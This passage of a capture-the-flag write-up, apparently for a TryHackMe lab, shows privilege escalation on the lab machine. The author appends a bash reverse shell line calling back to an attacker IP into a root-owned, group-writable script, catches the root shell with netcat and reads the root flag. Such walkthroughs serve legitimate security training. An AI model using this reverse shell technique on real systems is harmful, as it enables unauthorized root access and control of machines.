 ![Untitled](/assets/Ollie%20images/Untitled%204.png)

Let’s checkout this weird process:

```
ollie@hackerdog:/$ cd /usr/bin ; ls -l [REDACTED]
cd /usr/bin ; ls -l [REDACTED]
-rwxrw-r-- 1 root ollie 30 Feb 12  2022 [REDACTED]
ollie@hackerdog:/usr/bin$ cat [REDACTED]
cat [REDACTED]
#!/bin/bash

# This is weird?
ollie@hackerdog:/usr/bin$ file [REDACTED]
file [REDACTED]
[REDACTED]: Bourne-Again shell script, ASCII text executable
```

So this is an executable shell script and it is owned by **root** user but within the group of users is **ollie** which is the current user → I (as **ollie**) have the permission to read and write on this file. Though, I simply adding a reverse shell payload to establish another remote shell as user **root**:

```
ollie@hackerdog:/usr/bin$ echo "bash -i >& /dev/tcp/10.9.63.75/4445 0>&1" >> [REDACTED]
<bash -i >& /dev/tcp/10.9.63.75/4445 0>&1" >> [REDACTED]
ollie@hackerdog:/usr/bin$ cat [REDACTED]
cat [REDACTED]
#!/bin/bash

# This is weird?
bash -i >& /dev/tcp/10.9.63.75/4445 0>&1
```

Start a listener on another port on local machine and wait for awhile:

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4445
listening on [any] 4445 ...
connect to [10.9.63.75] from (UNKNOWN) [10.10.163.197] 46620
bash: cannot set terminal process group (2569): Inappropriate ioctl for device
bash: no job control in this shell
root@hackerdog:/# id
id
uid=0(root) gid=0(root) groups=0(root)
```

Great! Now I am root and I have full permission to read the root flag;

```
root@hackerdog:/# cd /root ; ls -l
cd /root ; ls -l
total 8
-rw-r--r-- 1 root root   30 Feb 12  2022 root.txt
drwxr-xr-x 3 root root 4096 Feb  6  2022 snap
root@hackerdog:~# cat root.txt
cat root.txt
THM{REDACTED}
```
